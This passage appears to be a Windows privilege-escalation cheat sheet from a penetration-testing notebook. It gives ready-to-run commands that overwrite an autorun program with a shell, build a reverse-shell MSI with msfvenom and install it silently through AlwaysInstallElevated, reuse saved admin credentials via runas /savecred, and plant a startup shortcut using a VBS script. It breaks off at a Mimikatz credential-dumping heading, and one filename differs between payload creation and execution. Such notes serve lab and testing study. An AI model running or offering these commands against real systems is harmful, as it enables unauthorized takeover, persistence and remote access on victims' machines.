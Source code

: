 ```bash
# Searching for weak autorun registry
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Checking the permission of `[APP-LOCATION]`
C:\PrivEsc\accesschk.exe /accepteula -wvu "[APP-LOCATION]"

# Replacing `program.exe` with `shell.exe` exexutable
copy C:\PrivEsc\shell.exe "C:\Program Files\Autorun Program\program.exe"
```
### Registry AlwaysInstallElevated

```bash
# Querying the registry AlwaysInstallElevated keys
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Creating Payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=80 -f msi -o reverse.msi

# Executing MSI file on target
msiexec /quiet /qn /i "C:\PrivEsc\shell.msi"
```
### Saved Credentials

```bash
# Lists all saved credentials
cmdkey /list

# Runs it as administrator since the creds were saved
runas /savecred /user:admin "C:\shell.exe"
```
### Startup Apps

```bash
# Checking if the user can write to StartUp
.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

# CreateShortcut.VBS
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\shell.exe"
oLink.Save

# Executes the script above
cscript C:\PrivEsc\CreateShortcut.vbs
```

## Windows Post Exploitation

Mimikatz Dumping Cached Credentials:
